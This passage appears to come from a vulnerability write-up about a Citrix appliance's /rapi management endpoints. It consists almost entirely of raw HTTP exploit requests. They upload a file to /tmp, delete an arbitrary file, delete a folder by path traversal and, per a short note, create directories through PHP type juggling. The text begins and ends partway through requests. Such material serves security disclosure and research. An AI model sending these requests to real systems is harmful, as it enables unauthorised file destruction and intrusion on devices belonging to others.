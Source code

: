 ```http
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 99

object={"uploadtext":{"filedir":"/tmp","filedata":"test","filename":"test.txt"}}
```

### Delete a file:
```http
POST /rapi/filedownload?filter=remove:1,path:%2ftmp%2ftest HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://citrix.local/menu/neo
If-Modified-Since: Thu, 01 Jan 1970 05:30:00 GMT
rand_key: 2061490565.1580290269373855
DNT: 1
X-NITRO-USER: henk
X-NITRO-PASS: henk
Connection: close
Cookie: startupapp=neo; is_cisco_platform=0; st_splitter=350px; rdx_pagination_size=25%20Per%20Page; SESSID=05afba59ef8e0e35933f3bc266941337
Content-Type: application/xml
Content-Length: 31

<clipermission></clipermission>
```

### Delete a folder:
```http
POST /rapi/movelicensefiles HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://citrix.local/menu/neo
If-Modified-Since: Thu, 01 Jan 1970 05:30:00 GMT
DNT: 1
Content-Type: application/x-www-form-urlencoded
Cookie: SESSID=9ed492e6ff1876d44ddcaec143d2f949
rand_key: 1384537322.1580549312074652
Content-Length: 52

object={"movelicensefiles":{"name":"../netscaler/portal/modules/STAT"}}
```

### Create a directory
The trick here is to set the filedir parameter to false (without using quotes), to do some PHP type juggling.
```http
POST /rapi/uploadtext HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://citrix.local/menu/neo
DNT: 1
rand_key: 1467045781.1580550597345443
X-NITRO-USER: henk
```
